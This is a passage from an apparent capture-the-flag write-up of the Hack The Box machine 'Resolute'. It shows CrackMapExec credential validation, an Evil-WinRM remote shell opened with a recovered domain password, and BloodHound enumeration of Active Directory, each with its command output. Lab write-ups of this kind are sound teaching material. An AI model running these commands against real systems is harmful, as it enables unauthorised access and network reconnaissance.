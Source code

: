 ## WinRM Access

Again, using [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), we can check if we can get access with WinRM.

```bash
$ crackmapexec winrm 10.129.96.155 -u melanie -p 'Welcome123!' -d megabank.local
HTTP        10.129.96.155   5985   10.129.96.155    [*] http://10.129.96.155:5985/wsman
WINRM       10.129.96.155   5985   10.129.96.155    [+] megabank.local\melanie:Welcome123! (Pwn3d!)
```

The password is valid and we do have a WinRM access to the remote computer. Using [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) and the recovered account, we can try to connect to the remote machine.

```bash
$ evil-winrm -i 10.129.96.155 -u melanie -p 'Welcome123!' 

Evil-WinRM shell v3.3
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents> dir ..\Desktop


    Directory: C:\Users\melanie\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         2/7/2022  10:48 AM             34 user.txt
```

We now have a remote shell access and the **first flag**.

# Privilege Escalation

Privilege Escalation consists of techniques that adversaries use to gain higher-level permissions on a system or network. Adversaries can often enter and explore a network with unprivileged access but require elevated permissions to follow through on their objectives. Common approaches are to take advantage of system weaknesses, misconfigurations, and vulnerabilities.

## Active Directory Recon

With a valid account, we can now use one of the [BloodHound](https://github.com/BloodHoundAD/BloodHound) ingestors and gather more information about the Active Directory. Here, we use a Python based ingestor for BloodHound, [BloodHound.py](https://github.com/fox-it/BloodHound.py).

```bash
$ bloodhound-python -c All -u melanie -p 'Welcome123!' -d megabank.local -ns 10.129.96.155 --zip
INFO: Found AD domain: megabank.local
INFO: Connecting to LDAP server: Resolute.megabank.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: Resolute.megabank.local
INFO: Found 27 users
INFO: Found 53 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: MS02.megabank.local
INFO: Querying computer: Resolute.megabank.local
INFO: Done in 00M 04S
INFO: Compressing output into 20220207140125_bloodhound.zip
```
